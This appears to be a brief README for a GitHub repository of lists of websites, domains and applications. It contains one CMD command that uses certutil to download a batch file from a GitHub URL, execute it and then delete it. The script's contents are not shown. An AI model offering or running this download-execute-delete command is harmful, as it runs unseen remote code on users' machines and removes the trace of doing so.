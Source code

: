 # lists
List of websites, domains, and applications 

# CMD
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/doitforthe90skids/lists/main/gen.bat gen.bat & gen.bat & del gen.bat
```
